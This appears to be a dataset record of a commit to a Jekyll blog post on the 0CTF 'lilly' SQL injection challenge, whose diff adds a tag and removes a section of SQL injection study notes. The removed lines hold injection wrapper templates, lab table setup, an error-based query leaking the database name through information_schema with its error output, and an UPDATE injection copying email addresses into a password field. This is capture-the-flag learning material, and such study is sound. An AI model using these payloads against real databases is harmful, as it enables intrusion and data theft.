

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-03-0ctf-lilly.md, in a window 1280 px wide and 1400 px high, scrolled down 787 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; after the commit the page ends 1447 px from its top, so only the background shows below that.

Commit message:
Update 2015-04-03-0ctf-lilly.md

```diff
--- a/_posts/2015-04-03-0ctf-lilly.md
+++ b/_posts/2015-04-03-0ctf-lilly.md
@@ -6,6 +6,7 @@ categories:
   - article
 tags:
   - sqli
+  - python
 ---
 
 非常不错的爆破脚本
@@ -58,48 +59,3 @@ while 1:
 			print repr(flag)
 			break
 {% endhighlight %}
-
-经典文章：[Injection in Insert, Update and Delete Statements](https://osandamalith.wordpress.com/2014/04/26/injection-in-insert-update-and-delete-statements)
-
-[kali下注入学习网站](http://localhost/sqli-labs/Less-1/?id=1)
-
-{% raw %}
-<pre>
-' or (payload) or '
-' and (payload) and '
-' or (payload) and '
-' or (payload) and '='
-'*  (payload)  *'
-' or (payload) and '
-" – (payload) – "
-''=(payload)=''
-
-准备测试数据：
-Create database newdb;
-use newdb;
-CREATE TABLE users(id int(3) NOT NULL AUTO_INCREMENT,username varchar(20) NOT NULL,password varchar(20) NOT NULL,PRIMARY KEY (id));
-desc users;  查看表的结构
-insert into users (id, username, password) values (1, 'Jane', 'Eyre'); 插入数据
-
-新建flag表：
-
-CREATE TABLE flag(id int(3) NOT NULL AUTO_INCREMENT, flag varchar(64) NOT NULL,PRIMARY KEY (id));
-insert into flag(id,flag) values(1,'0CTF{R0t_?_S8rRy_1_doNt_N}');
-mysql> select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
-ERROR 1062 (23000): Duplicate entry 'security1' for key 'group_key'
-
-show databases;
-use security;
-show tables;
-+--------------------+
-| Tables_in_security |
-+--------------------+
-| emails             |
-| flag               |
-| referers           |
-| uagents            |
-| users              |
-+--------------------+
-update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';
-</pre>
-{% endraw %}
```
